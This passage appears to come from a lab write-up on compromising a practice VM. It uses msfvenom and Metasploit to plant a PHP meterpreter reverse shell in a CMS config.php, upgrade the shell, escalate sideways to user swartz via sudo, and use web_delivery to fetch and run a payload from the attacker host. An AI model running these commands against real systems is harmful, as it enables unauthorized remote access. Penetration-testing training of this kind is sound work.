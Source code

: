 It was now possible to gain access to the vulnerable machine via a PHP reverse shell. The payload was generated with the following:
```bash
msfvenom --platform php -a php -p php/meterpreter/reverse_tcp LHOST=192.168.1.70 LPORT=1234
```
**Msfvenom** is a payload generator and encoder.  
The payload was generated for the platform PHP. Parameters `LHOST` and `LPORT` were configured to be the IP address of the attacker machine and an arbitrary chosen port to which the reverse shell would open a connection. The generated payload was appended to the `config.php` file.  
To exploit the reverse shell, the **Metasploit console** was opened with the command `msfconsole`.  
The **Metasploit Framework** is an open-source platform that supports vulnerability research, exploit development, and the creation of custom security tools.  
From the console, the following commands were executed:
```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.70
set LPORT 1234
exploit
```
The exploit was assigned the same information as the payload. By opening the `config.php` file on the browser (navigating to `http://admin.ceng-company.vm/gila/admin/fm/config.php`) the meterpreter session was started.  
The next commands executed were
```bash
shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo -l
```
The `shell` command opened the default shell of the user `www-data` (that is `/bin/sh`); to open a more powerful shell (`/bin/bash`) the one-liner python command was executed.  
The last one listed the allowed (and forbidden) commands to execute for the invoking user on the current host, as specified by the security policy; it presented the following:

![sudo-l](images/sudo-l.png)

The next command executed was
```bash
sudo -u swartz /home/swartz/runphp.sh
```
that executed the shell script `runphp.sh` as the user `swartz`; this resulted in executing PHP on the machine.  
On another terminal tab, another Metasploit console was opened, where the following commands were executed:
```bash
use exploit/multi/script/web_delivery
set target 1
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.1.70
set LPORT 10000
exploit
```
The module loaded provides a command to be run on the target machine based on the **selected target** (PHP in this case). The provided command would download and execute a payload. The main purpose of this module is to **quickly establish a session** on a target machine when the attacker has to manually type in the command.  
The module generated a PHP command that was afterward pasted into the other terminal. Once executed, it opened a **meterpreter** session with the attacker machine.